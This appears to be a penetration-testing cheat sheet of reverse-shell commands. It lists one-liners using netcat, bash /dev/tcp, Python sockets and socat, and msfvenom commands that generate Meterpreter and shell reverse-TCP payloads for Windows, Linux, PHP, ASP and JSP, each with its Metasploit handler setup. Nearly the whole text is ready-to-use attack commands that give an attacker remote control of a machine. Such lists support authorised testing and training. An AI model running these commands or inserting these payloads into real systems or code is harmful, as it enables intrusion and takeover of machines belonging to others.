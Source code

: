### Netcat
```
nc -e /bin/sh $IP $PORT
```

### Bash
```
bash -i >& /dev/tcp/192.168.0.1/8080 0>&1
```

### Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",$PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Socat
```
socat tcp-connect:192.168.0.5:4444 system:/bin/sh
```

## Meterpreter

### Windows 

#### Standard meterpreter

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$IP LPORT=$PORT -f exe -o shell_reverse.exe

//attacker machine
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

#### Windows meterpreter non-staged payload

```
msfvenom -p windows/shell_reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o shell_reverse_tcp.exe

//attacker machine
use exploit/multi/handler
set payload windows/shell_reverse_tcp

```

#### Windows meterpreter staged payload

```
msfvenom -p windows/shell/reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o staged_reverse_tcp.exe

//attacker machine
use exploit/multi/handler
set payload windows/shell/reverse_tcp
```


### Linux
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f elf > shell.elf

//attacker machine
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
```

### Meterpreter Web Payloads

#### PHP
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

#### ASP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```

#### JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > example.jsp
```
